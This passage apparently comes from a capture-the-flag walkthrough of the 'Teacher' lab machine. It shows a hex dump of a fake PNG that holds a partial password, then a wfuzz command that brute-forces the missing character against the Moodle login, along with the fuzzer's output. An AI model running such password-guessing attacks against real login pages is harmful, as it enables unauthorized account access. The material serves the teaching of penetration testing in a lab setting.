 ```
00000010: 0a49 2066 6f72 676f 7420 7468 6520 6c61  .I forgot the la
00000020: 7374 2063 6861 7261 6368 7465 7220 6f66  st charachter of
00000030: 206d 7920 7061 7373 776f 7264 2e20 5468   my password. Th
00000040: 6520 6f6e 6c79 2070 6172 7420 4920 7265  e only part I re
00000050: 6d65 6d62 6572 6564 2069 7320 5468 3443  membered is Th4C
00000060: 3030 6c54 6865 6163 6861 2e0a 0a43 6f75  00lTheacha...Cou
00000070: 6c64 2079 6f75 2067 7579 7320 6669 6775  ld you guys figu
00000080: 7265 206f 7574 2077 6861 7420 7468 6520  re out what the
00000090: 6c61 7374 2063 6861 7261 6368 7465 7220  last charachter
000000a0: 6973 2c20 6f72 206a 7573 7420 7265 7365  is, or just rese
000000b0: 7420 6974 3f0a 0a54 6861 6e6b 732c 0a47  t it?..Thanks,.G
000000c0: 696f 7661 6e6e 690a                      iovanni.
[root@kali Teacher ]$ file 5.png    
5.png: ASCII text
```
as we can see we have a text file, let's open it:
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```
This is basically giving us a password, and since the only login prompt we've seen so far is for /moodle/, let's try to exploit this.  
We can use wfuzz to enumerate all the possible characters, and since password usully contains special chars, let's use the special chars dictionary.  
```
[root@kali Teacher ]$ wfuzz -w /usr/share/wordlists/seclists/Fuzzing/special-chars.txt -d 'anchor=&username=Giovanni&password=Th4C00lTheachaFUZZ' http://10.10.10.153/moodle/login/index.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.153/moodle/login/index.php
Total requests: 32

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                     
=====================================================================

[... SNIP ....]

000000022:   303        6 L      34 W       440 Ch      "`"                                                                                                                                                                         
000000029:   303        6 L      34 W       440 Ch      "'"                                                                                                                                                                         
000000028:   303        6 L      34 W       440 Ch      ":"                                                                                                                                                                         
000000004:   303        6 L      34 W       454 Ch      "#"                                                                                                                                                                         
000000026:   303        6 L      34 W       440 Ch      "?"                                                                                                                                                                         
```